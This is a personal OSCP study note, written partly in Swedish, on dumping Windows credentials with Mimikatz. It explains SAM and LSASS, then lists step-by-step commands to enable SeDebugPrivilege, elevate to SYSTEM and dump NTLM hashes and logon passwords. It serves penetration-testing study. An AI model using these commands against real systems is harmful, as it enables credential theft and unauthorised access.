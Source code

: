 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/h-password-attacks/5-mimikatz/","updated":"2024-01-05T11:34:56.592+01:00"}
---
```


### Understanding NTLM and Mimikatz:
- Windows stores hashed passwords in the Security Account Manager (SAM)
- Rainbow Table Attack = precomputed hashes compared to hash (does not work with salting)
- Mimikatz
	- Because of the kernel having an exclusive lock on "C:\\Windows\\system32\\config\sam" it cannot be copied or moved. Mimikatz will bypass this.
	- Using the "sekurlsa" module it can also extract hashes from process memory at Local Security Authority Subsystem (LSASS).
		- LSASS is a process in Windows which handles and caches user authentication, password changes, and access token creation.
		- It is run by the SYSTEM account, which is even more privileged than Administrator.
	- Mimikatz need to be run as at least Administrator and have "SeDebugPrivilege" access enabled. It lets us debug or own and other users' processes.
	- Elevation to SYSTEM can happen through PsExec, or Mimikatz's token elevation function (which requires "SeImpersonatePrivilege", and that is on by default for admins).

--------------

### Mimikatz Usage:
1. Enumerate local users:
```
Get-LocalUser
```
2. Start Mimikatz as at least Administrator:
```
.\mimikatz.exe
```
4. Aktivera SeDebugPrivilege:
```
privilege::debug
```
5. Elevera till SYSTEM:
```
token::elevate
```
6. Kör arbiträrt kommando. Exempel:
```
lsadump::sam #Dumpar NTLM hashar från SAM.
sekurlsa::logonpasswords #Dumpar alla logon credentials som kan hittas (lsass).
```
7. Win!

- Alla Mimikatz-commands: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md#commands-list
